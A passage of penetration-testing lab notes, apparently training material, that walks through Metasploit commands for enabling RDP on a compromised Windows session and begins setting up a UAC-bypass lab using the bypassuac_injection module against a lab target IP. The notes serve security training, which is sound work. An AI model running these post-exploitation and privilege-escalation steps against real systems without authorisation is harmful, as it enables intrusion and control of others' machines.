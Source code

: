 ![Metasploit - post/windows/gather/enum_shares](.gitbook/assets/image-20230419194507578.png)

- Check if RDP is enabled

```bash
search rdp platform:windows
use post/windows/manage/enable_rdp
set SESSION 1
run
```

![Metasploit - post/windows/manage/enable_rdp](.gitbook/assets/image-20230419194637948.png)

------

## Lab 2 - UAC Bypass

> 🔬 [UAC Bypass: Memory Injection (Metasploit)](https://attackdefense.com/challengedetailsnoauth?cid=2210)
>
> - Target IP: `10.2.18.116`
> - Metasploit [**`Windows Escalate UAC Protection Bypass (In Memory Injection)`**](https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_injection/) module
>   - *This module will bypass Windows UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off. This module uses the Reflective DLL Injection technique to drop only the DLL payload binary instead of three separate binaries in the standard technique. However, it requires the correct architecture to be selected, (use x64 for SYSWOW64 systems also). If specifying EXE::Custom your DLL should call ExitProcess() after starting your payload in a separate process.*

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.18.116
setg RHOST 10.2.18.116
workspace -a UAC_Bypass
```
